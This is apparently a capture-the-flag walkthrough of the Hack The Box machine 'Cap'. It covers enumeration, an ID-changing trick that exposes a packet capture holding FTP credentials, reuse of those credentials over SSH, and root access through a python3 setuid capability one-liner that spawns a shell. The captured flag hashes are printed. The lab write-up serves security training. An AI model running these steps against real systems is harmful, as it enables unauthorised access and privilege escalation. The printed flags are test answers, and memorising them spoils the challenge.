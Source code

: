 ![](Images/E24iZ_yX0AMulP5.jpg)
What we can learn from this machine
* Enumeration
* Python3 Capabilities
* Wireshark

Always start with nmap scan. Let's see what we got in machine.
```
# Nmap 7.91 scan initiated Thu Jun 10 11:37:56 2021 as: nmap -sC -sV -oN Scans/nmap-output 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:18 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:13 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 11:40:21 2021 -- 1 IP address (1 host up) scanned in 145.03 seconds
```
Looks like we got port 21 ftp, 22 ssh, 80 http are open. Let's see what in the webpage.

![](Images/web.png)

After sometime poking around I found this.

![](Images/pcap.png)

When you first click It's no records shows us but we change the url bit forward. Like /data/5 -> /data/4 . You can see it changes but no changes yet. When I change into **/data/0** it gives me some captures. 

![](Images/download%20pcap.png)

After we download that pcap file. You can open it on wireshark and do look around. When I was looking I found this on **tcp stream eq 1**.

![](Images/input.png)

Looks he need enter the password. Let's see what we got in other packets maybe we can find our password among them. After some time in **tcp stream eq 3** I found the password and username.

![](Images/password.png)

Let's login to the FTP port let's its working or not.

```bash
┌─[visith@parrot]─[~/CTF/htb/cap]
└──╼ $ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:visith): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 1001     1001       341117 Jun 10 05:54 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Jun 10 05:54 snap
-r--------    1 1001     1001           33 Jun 10 04:51 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (685.6715 kB/s)
ftp> exit
221 Goodbye.
```
We got our user key but we cant get to root through ftp let's try that **SSH** port with same credentials. 

```bash
─[✗]─[visith@parrot]─[~/CTF/htb/cap]
└──╼ $ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Last login: Thu Jun 10 05:53:09 2021 from 10.10.14.76
nathan@cap:~$ ls -la
total 372
drwxr-xr-x 5 nathan nathan   4096 Jun 10 05:55 .
drwxr-xr-x 3 root   root     4096 May 23 19:17 ..
lrwxrwxrwx 1 root   root        9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r-- 1 nathan nathan    220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 nathan nathan   3771 Feb 25  2020 .bashrc
drwx------ 2 nathan nathan   4096 May 23 19:17 .cache
drwx------ 4 nathan nathan   4096 Jun 10 06:38 .gnupg
-rw-r--r-- 1 nathan nathan    807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root        9 May 27 09:16 .viminfo -> /dev/null
-rwxr-xr-x 1 nathan nathan 341117 Jun 10 05:54 linpeas.sh
drwxr-xr-x 3 nathan nathan   4096 Jun 10 05:54 snap
-r-------- 1 nathan nathan     33 Jun 10 04:51 user.txt
nathan@cap:~$ cat user.txt
ecae44311783c50b26a5691bf7bc687e
```
Here also you can get the user flag. I try to run **sudo -l** but we can't run sudo in here. Let's run the linpeas.sh. 
```bash
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ ./linpeas.sh
```
In linpeas output we can see this under the capabilities.

![](Images/python3.png)

Python3 can give us root. After searching in **GTFObins** I find this.

![](Images/gtfobins.png)

We have python3 we need to change the python version of our script. Like this :
```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
After we execute this script *usr/bin* directory. We can get our shell to root. 

```bash
nathan@cap:/usr/bin$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# /usr/bin/script -qc /bin/bash /dev/null
root@cap:/usr/bin# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
3de419c148d30fbff7975629a16e486e
root@cap:/root#
```
Thx for reading !!

![](../Armageddon/Images/giphy.gif)